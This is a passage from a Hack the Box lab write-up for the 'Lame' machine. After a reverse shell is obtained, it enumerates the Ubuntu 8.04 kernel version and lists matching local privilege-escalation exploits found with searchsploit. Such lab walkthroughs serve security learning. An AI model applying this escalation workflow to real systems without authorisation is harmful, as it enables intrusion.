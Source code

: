 The shell connects back to our attack machine and we have a nonprivileged shell.
We’ll need to escalate privileges. 

# Hack the Box Ethical Hacking - Lame 
---

### Escalate privileges

```output
daemon@lame:/tmp$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 8.04
Release:	8.04
Codename:	hardy
daemon@lame:/tmp$ uname -a
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
daemon@lame:/tmp$ 
```
So let's look forward to that version 2.6.24-16-server

`searchsploit 2.6 ubuntu 8`

```output
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock_s | linux/local/9545.c
Linux Kernel 2.6 (Debian 4.0 / Ubuntu / Gentoo) UDEV < 1.4.1 - Local Privilege Escalation (1)           | linux/local/8478.sh
Linux Kernel 2.6 (Gentoo / Ubuntu 8.10/9.04) UDEV < 1.4.1 - Local Privilege Escalation (2)              | linux/local/8572.c
Linux Kernel 2.6.20/2.6.24/2.6.27_7-10 (Ubuntu 7.04/8.04/8.10 / Fedora Core 10 / OpenSuse 11.1) - SCTP  | linux/remote/8556.c
Linux Kernel 2.6.24_16-23/2.6.27_7-10/2.6.28.3 (Ubuntu 8.04/8.10 / Fedora Core 10 x86-64) - 'set_select | linux_x86-64/local/9083.c
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64) - 'Mempodipper' Local Privilege Escalation (1)    | linux/local/18411.c
Linux Kernel < 2.6.34 (Ubuntu 10.10 x86) - 'CAP_SYS_ADMIN' Local Privilege Escalation (1)               | linux_x86/local/15916.c
Linux Kernel < 2.6.34 (Ubuntu 10.10 x86/x64) - 'CAP_SYS_ADMIN' Local Privilege Escalation (2)           | linux/local/15944.c
Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32) - 'CAN BCM' Local Privilege Escalation                | linux/local/14814.c
Linux Kernel < 2.6.36.2 (Ubuntu 10.04) - 'Half-Nelson.c' Econet Privilege Escalation                    | linux/local/17787.c
Ubuntu < 15.10 - PT Chown Arbitrary PTs Access Via User Namespace Privilege Escalation                  | linux/local/41760.txt
-------------------------------------------------------------------------------------------------------- ---------------------------------
```
